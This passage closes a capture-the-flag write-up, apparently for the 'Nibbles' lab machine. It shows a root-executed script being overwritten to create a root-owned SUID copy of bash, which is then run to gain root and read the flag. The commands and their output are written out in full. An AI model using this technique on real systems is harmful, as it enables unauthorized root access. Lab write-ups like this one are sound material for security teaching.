 We can run the script we just extracted as root.

## Privilege Escalation

To escalate our privileges, we can simply overwrite the script with one of our own. There are multiple ways to get root in situations such as this. For this box, we'll simply copy the bash shell, change the owner permissions on it to root, and make it a SUID binary and executable by anyone.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ which bash
which bash
/bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat <<EOF > monitor.sh
cat <<EOF > monitor.sh
> cp /bin/bash /home/nibbler/personal/stuff/priv; chown root:root /home/nibbler/personal/stuff/priv; chmod u+s /home/nibbler/personal/stuff/priv
</personal/stuff/priv; chmod u+s /home/nibbler/personal/stuff/priv           
> EOF
EOF
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
cat monitor.sh
cp /bin/bash /home/nibbler/personal/stuff/priv; chown root:root /home/nibbler/personal/stuff/priv; chmod u+s /home/nibbler/personal/stuff/priv
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

Finally, let's run it, and grab the root flag.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ./priv -p
./priv -p
priv-4.3# id
id
uid=1001(nibbler) gid=1001(nibbler) euid=0(root) groups=1001(nibbler)
priv-4.3# cd /root
cd /root
priv-4.3# cat root.txt
cat root.txt
b9d004746f80b37f75dbd1d4a7a007ae
priv-4.3# 
```

## Resources

{% embed url="https://www.exploit-db.com/exploits/38489" %}
